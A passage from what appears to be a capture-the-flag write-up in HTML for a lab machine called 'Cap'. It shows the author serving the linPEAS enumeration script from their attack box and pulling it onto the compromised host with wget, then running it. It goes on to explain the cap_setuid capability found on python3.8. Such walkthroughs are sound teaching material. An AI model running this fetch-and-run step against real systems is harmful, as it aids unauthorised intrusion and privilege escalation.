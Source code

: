 <div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">oxdf@parrot$</span><span class="w"> </span><span class="nb">cd</span> /opt/PEASS-ng/linPEAS/
<span class="gp">oxdf@parrot$</span><span class="w"> </span>python3 <span class="nt">-m</span> http.server 80
<span class="go">Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
</span></code></pre></div></div>

<p>I’ll request it with <code class="language-plaintext highlighter-rouge">wget</code>:</p>

<div class="language-console highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gp">nathan@cap:/tmp$</span><span class="w"> </span>wget 10.10.14.5/linpeas.sh                                                                                             
<span class="go">--2021-10-02 10:33:19--  http://10.10.14.5/linpeas.sh                                                                                   
Connecting to 10.10.14.5:80... connected.                                                                                               
HTTP request sent, awaiting response... 200 OK
Length: 470149 (459K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[=============================================================&gt;] 459.13K  1.79MB/s    in 0.3s    

2021-10-02 10:33:19 (1.79 MB/s) - ‘linpeas.sh’ saved [470149/470149]
</span></code></pre></div></div>

<p>And run it with <code class="language-plaintext highlighter-rouge">bash linpeas.sh</code>. The section on capabilities has <code class="language-plaintext highlighter-rouge">python3.8</code> highlighted to the max:</p>

<picture>
    <source type="image/webp" srcset="https://0xdfimages.gitlab.io/img/image-20211002063515904.webp" />
    <img loading="lazy" src="https://0xdfimages.gitlab.io/img/image-20211002063515904.png" alt="image-20211002063515904" class="include_image " />
</picture>

<h3 id="shell">Shell</h3>

<h4 id="capabilities-background">Capabilities Background</h4>

<p>The man page describes <code class="language-plaintext highlighter-rouge">cap_net_bind_service</code> as:</p>

<blockquote>
  <div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>Bind a socket to Internet domain privileged ports (port
numbers less than 1024).
</code></pre></div>  </div>
</blockquote>

<p>This is a really useful capability because it allows this one action without giving full root. In fact, I’ve set this capability on <code class="language-plaintext highlighter-rouge">python</code> on my VM so I don’t have to run <code class="language-plaintext highlighter-rouge">sudo</code> every time I want to start a Python webserver.</p>

<p>The man page describes <code class="language-plaintext highlighter-rouge">cap_setuid</code> as:</p>

<blockquote>
  <div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>* Make arbitrary manipulations of process UIDs (setuid(2),
setreuid(2), setresuid(2), setfsuid(2));
* forge UID when passing socket credentials via UNIX
domain sockets;
* write a user ID mapping in a user namespace (see
user_namespaces(7)).
</code></pre></div>  </div>
</blockquote>
